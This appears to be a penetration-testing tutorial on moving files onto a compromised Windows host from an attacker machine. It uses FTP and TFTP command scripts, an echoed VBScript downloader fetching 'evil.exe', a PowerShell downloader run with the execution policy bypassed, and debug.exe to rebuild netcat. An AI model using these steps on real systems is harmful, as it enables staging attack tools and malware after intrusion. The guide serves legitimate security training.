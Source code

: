 # Transferring files to windows

Transferring files to linux is usually pretty easy. We can use netcat, wget, curl, which most systems have as default. But windows does not have these tools.



## FTP

Most windows machines have a ftp-client included. But we can't use it interactively since that most  likely would kill our shell. So we have get around that. We can however run commands from a file. So what we want to do is to echo out the commands into a textfile. And then use that as our input to the ftp-client. Let me demonstrate.

On the compromised machine we echo out the following commands into a file

```
echo open 192.168.1.101 21> ftp.txt
echo USER asshat>> ftp.txt
echo mysecretpassword>> ftp.txt
echo bin>> ftp.txt
echo GET wget.exe>> ftp.txt
echo bye>> ftp.txt
```

Then run this command to connect to the ftp

```
ftp –v -n -s:ftp.txt
```

Of course you need to have a ftp-server configured with the user asshat and the password to mysecretpassword.

## TFTP

Works by default on:
**Windows XP**
**Windows 2003**

A TFTP client is installed by default on windows machines up to Windows XP and Windows 2003. What is good about TFTP is that you can use it non-interactivly. Which means less risk of losing your shell.

Kali has a TFTP server build in.
You can server up some files with it like this

```
atftpd --daemon --port 69 /tftp
/etc/init.d/atftpd restart
```

Now you can put stuff in /srv/tftp and it will be served. Remember that TFTP used UDP. So if you run netstat it will not show it as listening. 

You can see it running like this

```
netstat -a -p UDP | grep udp
```

So now you can upload and download whatever from the windows-machine like this

```
tftp -i 192.160.1.101 GET wget.exe
```

I usually put all files I want to make available in **/usr/tftp**

## VBScript

Here is a good script to make a wget-clone in VB.

```
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs

```

You then execute the script like this: 
**cscript wget.vbs http://192.168.10.5/evil.exe evil.exe** 

The script works great and I found it at the this guys gist: https://gist.github.com/sckalath/ec7af6a1786e3de6c309


## Powershell

This is how we can download a file using powershell. Remember since we only have a non-interactive shell we can not start powershell.exe, because our shell can't handle that. But it is okay we can still run scripts in powershell.

```
echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://192.168.1.101/file.exe" >>wget.ps1
echo $file = "output-file.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
```

Now we invoke it with this crazy syntax:
```
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```


## Debug.exe

This is a crazy technique that works on windows 32 bit machines. Basically the idea is to use the debug.exe program. It is used to inspect binaries, like a debugger. But it can also rebuild them from hex. So the idea is that we take a binaries, like netcat. And then disassemble it into hex, paste it into a file on the compromised machine, and then assemble it with debug.exe.

Debug.exe can only assemble 64 kb. So we need to use files smaller than that. We can use upx to compress it even more. So let's do that

```
upx -9 nc.exe
```
Now it only weights 29 kb. Perfect.So now let's disassemble it:

```
wine exe2bat.exe nc.exe nc.txt
```

Perfect, now we just copy-past the text into our windows-shell. And it will automatically create a file called nc.exe

